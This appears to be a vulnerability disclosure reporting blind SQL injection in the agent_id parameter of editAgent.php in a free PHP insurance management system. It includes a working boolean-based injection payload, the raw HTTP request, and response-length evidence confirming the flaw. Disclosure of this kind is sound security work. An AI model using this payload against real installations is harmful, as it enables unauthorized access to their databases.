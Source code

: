 # Insurance Management System v1.0 by oretnom23 has SQL injection

Author： k0xx

vendors: https://itsourcecode.com/free-projects/php-project/insurance-management-system-project-in-php-free-download/

Vulnerability File: /insurance/editAgent.php?agent_id=

Vulnerability location: /insurance/editAgent.php?agent_id=,agent_id

[+] Payload: /insurance/editAgent.php?agent_id=1610%27%20and%20length(database())%20=4%20--+ // Leak place ---> agent_id

Current database name: lims,length is 4

```sql
GET /insurance/editAgent.php?agent_id=1610%27%20and%20length(database())%20=4%20--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=tmbv0mt5ff9hphhe0mtv4sghfq
Connection: close
```

When length (database ()) = 3, Content-Length: 4385
![image](https://user-images.githubusercontent.com/54017627/166145342-de13b85a-2b57-4bbb-965c-57ab2c112997.png)

![image](https://user-images.githubusercontent.com/54017627/166145367-171f1c7d-e131-4794-b86d-f9f45964e16a.png)


When length (database ()) = 4, Content-Length: 4893

![image](https://user-images.githubusercontent.com/54017627/166145338-f342cbe4-3028-4bcf-953c-89ff90af5d06.png)

![image](https://user-images.githubusercontent.com/54017627/166145358-c260dda4-4ba1-4fdf-b555-24a486f86e99.png)


